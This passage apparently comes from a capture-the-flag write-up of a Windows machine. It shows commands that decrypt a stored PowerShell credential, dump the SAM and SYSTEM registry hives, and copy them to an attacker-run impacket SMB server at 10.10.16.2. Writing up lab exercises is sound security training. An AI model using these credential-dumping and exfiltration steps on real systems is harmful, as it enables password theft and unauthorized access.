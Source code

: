 * I searched about how to decrypt it
* [`https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx `](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx)
*  `$cred=Import-CliXml -Path <file>; $cred.GetNetworkCredential().Password`

<img src="/img/omni/code.PNG" alt="Getting-gz" width="800" height="440">

* we have access to Administrator directory >>access SAM and SYSTEM too
* Copied them to c:\. Now I need to copy this to my machine > setup SMB Serve
* `reg save HKLM\SYSTEM c:\SYSTEM`
* `reg save HKLM\SAM c:\SAM`

<img src="/img/omni/sam10.PNG" alt="Getting-gz" width="800" height="100">

<img src="/img/omni/system.PNG" alt="Getting-gz" width="800" height="100">

* setup SMB Serve
* `sudo impacket-smbserver -smb2support test `pwd` -username test -password test` (owner machine) > smbserver

* and command run on the machine
 * `net use z: \\10.10.16.2\test /user:test test`
 * `copy SAM \\10.10.16.2\test`
 * `copy SYSTEM \\10.10.16.2\test`
 
<img src="/img/omni/transfer.PNG" alt="Getting-gz" width="800" height="440">
